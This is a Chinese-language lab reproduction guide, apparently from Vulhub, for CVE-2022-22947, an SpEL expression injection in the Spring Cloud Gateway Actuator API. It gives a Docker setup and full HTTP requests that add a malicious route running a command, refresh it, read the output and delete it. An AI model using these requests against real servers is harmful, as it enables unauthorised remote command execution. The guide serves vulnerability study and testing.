





Spring Cloud Gateway Actuator API SpEL 表达式注入命令执行 CVE-2022-22947¶
漏洞描述¶
Spring Cloud Gateway 是 Spring 中的一个 API 网关。其 3.1.0 及 3.0.6 版本（包含）以前存在一处 SpEL 表达式注入漏洞，当攻击者可以访问 Actuator API 的情况下，将可以利用该漏洞执行任意命令。
参考链接：
- https://tanzu.vmware.com/security/cve-2022-22947
- https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/
环境搭建¶
Vulhub 执行如下命令启动一个使用了 Spring Cloud Gateway 3.1.0 的 Web 服务：
docker-compose up -d
服务启动后，访问 http://your-ip:8080 即可看到演示页面，这个页面的上游就是 example.com。

漏洞复现¶
利用这个漏洞需要分多步。
首先，发送如下数据包即可添加一个包含恶意 SpEL 表达式的路由：
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 328
{
"id": "hacktest",
"filters": [{
"name": "AddResponseHeader",
"args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"}
}],
"uri": "http://example.com",
"order": 0
}

然后，发送如下数据包应用刚添加的路由。这个数据包将触发 SpEL 表达式的执行：
POST /actuator/gateway/refresh HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

发送如下数据包即可查看执行结果：
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

最后，发送如下数据包清理现场，删除所添加的路由：
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
